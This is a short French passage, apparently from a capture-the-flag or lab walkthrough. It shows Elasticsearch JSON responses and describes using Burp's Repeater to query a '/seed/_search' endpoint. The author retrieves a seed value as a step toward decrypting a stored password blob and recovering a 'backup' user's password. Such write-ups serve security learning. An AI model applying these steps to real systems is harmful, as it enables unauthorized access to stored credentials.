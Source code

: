 ```json
    "reason": "index [user-00001/vqTsf_ziT66Jk_eqjT9lRg] already exists",                              
    "index_uuid": "vqTsf_ziT66Jk_eqjT9lRg",                                                            
    "index": "user-00001"                                                                              
  },                                                                                                   
  "status": 400                                                                                        
}
```
Ce qui est logique car le programme que l'on utilise n'est qu'une version alpha et que la version en production doit déjà avoir ajouté l'utilisateur.

On va maintenant retrouver les valeurs de `seed` et du `Blob` (le mot de passe chiffré) associé à l'utilisateur `user-00001` pour retrouver le mot de passe associé à l'utilisateur backup! Pour cela on envoie la première requete dans le `Repeater` et on remplace le chemin par `/seed/_search?pretty=true` ce qui nous renvoie toutes les informations sur l'index seed:

```json
HTTP/1.1 200 OK
X-elastic-product: Elasticsearch
content-type: application/json
content-length: 412

{
  "took" : 3,
  "timed_out" : false,
  "_shards" : {
    "total" : 1,
    "successful" : 1,
    "skipped" : 0,
    "failed" : 0
  },
  "hits" : {
    "total" : {
      "value" : 1,
      "relation" : "eq"
    },
    "max_score" : 1.0,
    "hits" : [
      {
        "_index" : "seed",
        "_id" : "1",
        "_score" : 1.0,
        "_source" : {
          "seed" : 20187148
        }
      }
    ]
  }
}
```
